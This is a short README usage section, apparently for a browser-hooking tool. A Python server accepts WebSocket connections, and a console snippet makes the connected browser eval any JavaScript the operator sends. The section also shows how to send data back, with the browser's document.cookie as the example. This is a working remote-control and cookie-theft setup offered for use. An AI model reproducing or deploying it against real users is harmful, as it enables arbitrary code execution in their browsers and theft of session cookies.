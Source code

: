 ## Usage
If you run `python main.py`, then run in the CLI:

`>listen`

It will listen for connections. 
To connect a browser, run this in the console (or by other means? :) ):
```
var socket = new WebSocket('ws://localhost:1337', 'chat'); 
socket.onmessage = function (event) {
    eval(event.data);
}
```

Then, in the CLI:

`control`
`[the number label of the session you wish to control]`

Then you will be prompted to run any Javascript you want.
To send data back to the server, you can use `socket.send`. E.g.:

```
socket.send(document.cookie);
```
